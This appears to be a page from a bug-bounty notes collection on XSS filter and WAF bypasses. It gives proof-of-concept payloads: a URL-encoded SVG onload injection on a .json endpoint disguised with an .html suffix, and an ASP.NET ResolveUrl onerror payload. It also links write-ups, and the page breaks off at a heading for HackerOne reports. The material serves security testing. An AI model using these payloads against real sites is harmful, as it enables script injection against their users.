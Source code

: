### Some Bypasses Techniques

* **XSS for `.JSON` endpoint \[ bypass (`.html`)and `WAF` ]**
  *   `“resource Type” : “silent:nonexitsting”` Function

      ![https://user-images.githubusercontent.com/108616378/219940178-c7988e77-c51a-4e79-add2-e0b192d92e02.png](https://user-images.githubusercontent.com/108616378/219940178-c7988e77-c51a-4e79-add2-e0b192d92e02.png)
  * Use `url-encoded` payload with .`htm` extension and `//` for break directory block too , So the server so the server didn’t understand my request fully
  * POC: `https://www.redacted.com/etc/designs/redacted.json//%3Csvg%20onload=alert(document.domain)%3E.html`
* **XSS in meta tag**
  * [XSS bypass using META tag in realestate.postnl.nl | by Prial Islam Khan | InfoSec Write-ups (infosecwriteups.com)](https://infosecwriteups.com/xss-bypass-using-meta-tag-in-realestate-postnl-nl-32db25db7308)
  *   A decade-old \`ResolveUrl XSS\` bug is still present in many [http://ASP.NET](https://t.co/fJYUdsk50c) apps. I randomly found this bug in a very famous app.  \
      Try in login pages, redirects, forms & dynamic URL construction (`~/images/`). Payload: `/(A(%22onerror='alert%60123%60'test))/`\
      Credits:  [https://x.com/nav1n0x/status/1799384973407031565](https://x.com/nav1n0x/status/1799384973407031565)

      <figure><img src="../.gitbook/assets/image (223).png" alt=""><figcaption></figcaption></figure>

### [Mind Map](https://xmind.ai/share/CTAMcPfH?xid=O720Am6q)

## Top XSS reports from HackerOne:
